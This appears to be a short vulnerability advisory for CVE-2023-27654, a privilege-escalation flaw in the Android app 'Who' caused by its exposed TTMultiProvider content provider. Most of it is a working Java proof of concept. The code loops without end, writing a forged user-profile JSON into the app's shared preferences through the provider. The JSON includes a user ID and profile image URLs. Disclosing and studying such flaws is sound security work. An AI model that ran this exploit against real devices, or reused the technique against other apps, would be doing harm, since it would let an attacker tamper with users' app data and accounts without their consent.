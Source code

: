 ## Escalation of Privileges exists in WHO（CVE-2023-27654）

Vendor：WHO(https://www.whoapp.live/)

Affected product：Who(com.scorp.who)

Version：1.0.28, 1.0.30, 1.0.32 

Download link：https://play.google.com/store/apps/details?id=com.scorp.who

Description of the vulnerability for use in the CVE：An issue found in WHOv.1.0.28, v.1.0.30, v.1.0.32 allows an attacker to cause an escalation of privileges via the TTMultiProvider component.



poc：

```java
public void attack() {
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    String randomString =getRandomString(512);
    Uri uri = Uri.parse("content://com.scorp.who.TTMultiProvider/t_sp/contain/" + "zztest" + "?sp_file_name=unityads-installinfo");
    while (true) {
        ContentValues contentValues = new ContentValues();
        contentValues.put("apiUserProfile", "{\"is_verified\":false,\"is_favorite\":false,\"uid\":\"FlG4hFCFrxPQMQ2UfejzeJuzoy92\",\"b\":2,\"c\":3,\"d\":0,\"lang\":\"jp\",\"bio\":\"hack\",\"workTitle\":\"hack\",\"workCompany\":\"hack\",\"education\":\"hack\",\"redactedName\":\"T*******\",\"name\":\"hack\",\"ppImageURL\":\"https://d2veheavfolhls.cloudfront.net/pp%2FFlG4hFCFrxPQMQ2UfejzeJuzoy92%2Fd8350738-45da-4221-a648-5082259139c5?alt\\u003dmedia\",\"ppImageID\":\"d8350738-45da-4221-a648-5082259139c5\",\"country\":{\"code\":\"HK\",\"name\":\"Hong Kong SAR China\",\"flag\":\"https://d2veheavfolhls.cloudfront.net/misc%2Fflags%2FHK@3x.png?alt\\u003dmedia\"},\"birthday\":\"1999-11-29T06:22:00.000Z\",\"age\":99,\"popularity\":1000,\"like_count\":-1,\"shared_id\":\"123456789\",\"favorite_count\":0,\"self_favorite_count\":3,\"ppImages\":[{\"ID\":\"d8350738-45da-4221-a648-5082259139c5\",\"URL\":\"https://d2veheavfolhls.cloudfront.net/pp%2FFlG4hFCFrxPQMQ2UfejzeJuzoy92%2Fd8350738-45da-4221-a648-5082259139c5?alt\\u003dmedia\",\"review_status\":0}],\"profileVideos\":[{\"ID\":\"d4f68235-630c-46b2-b45a-b9716b4ee6da\",\"URL\":\"https://d2veheavfolhls.cloudfront.net/pv%2FFlG4hFCFrxPQMQ2UfejzeJuzoy92%2Fd4f68235-630c-46b2-b45a-b9716b4ee6da?alt\\u003dmedia\",\"thumbnailURL\":\"https://d2veheavfolhls.cloudfront.net/pvt%2FFlG4hFCFrxPQMQ2UfejzeJuzoy92%2Fd4f68235-630c-46b2-b45a-b9716b4ee6da?alt\\u003dmedia\",\"review_status\":0}]}");
        contentResolver.update(uri,contentValues,null,null);
    }
}
```



